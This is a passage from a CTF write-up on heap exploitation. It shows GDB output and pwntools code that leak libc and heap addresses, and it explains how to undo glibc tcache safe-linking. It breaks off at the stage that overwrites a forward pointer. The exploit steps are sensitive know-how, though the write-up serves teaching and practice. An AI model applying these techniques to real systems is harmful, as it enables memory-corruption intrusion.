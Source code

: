 ```
gef➤  p/x 0x00007f4a4b3d9220 - 0x00007f4a4b214000
$1 = 0x1c5220
```

So offset is `0x1c5220`. The following code will be use to take this leak and calculate libc base address:

```py
libc.address = u64(show(7) + b'\x00\x00') - 0x1c5220
log.success("Libc base: " + hex(libc.address))
```

That’s great! Let’s move on the next stage: Leak heap address!

### Stage 2: Leak heap address

To leak heap address, we just simply create 1 small chunk then free it. Remember what I have explained? The forward pointer has to XOR first, then it will be written to chunk. So just `free()` 1 small chunk and we can get the address of forward pointer, then recover the base address of heap:

```
fw_pointer = u64(show(0).ljust(8, b'\x00'))
log.success("Leak fw pointer: " + hex(fw_pointer))
```

And we can see that the forward pointer was leaked:

![fw_pointer_leaked.png](/static/images/foobar-ctf-2022/images/fw_pointer_leaked.png)

Check with GDB:

![check_fw_pointer.png](/static/images/foobar-ctf-2022/images/check_fw_pointer.png)

So as I mentioned above, with the first chunk is freed and goes to tcache, the forward pointer will be like this:

```
# (<Current chunk address> >> 12) ^ <Previous chunk address> = <protected forward pointer>
  (       0x1a1c2a0        >> 12) ^             0            = 0x1a1c
```

So to recover the heap base address, we just simply do the reverse order (don’t need to XOR) with the following payload:

```py
heap = u64(show(0).ljust(8, b'\x00')) << 12
log.success("Heap base: " + hex(heap))
```

And we get the heap base address. Before we move on next stage, just `malloc()` again to reset the state of tcache bin to null:

```py
add(0, 0x10, '{}'.format(0).encode()*8)
```

And now, let’s move on!

### Stage 3: Overwrite forward pointer
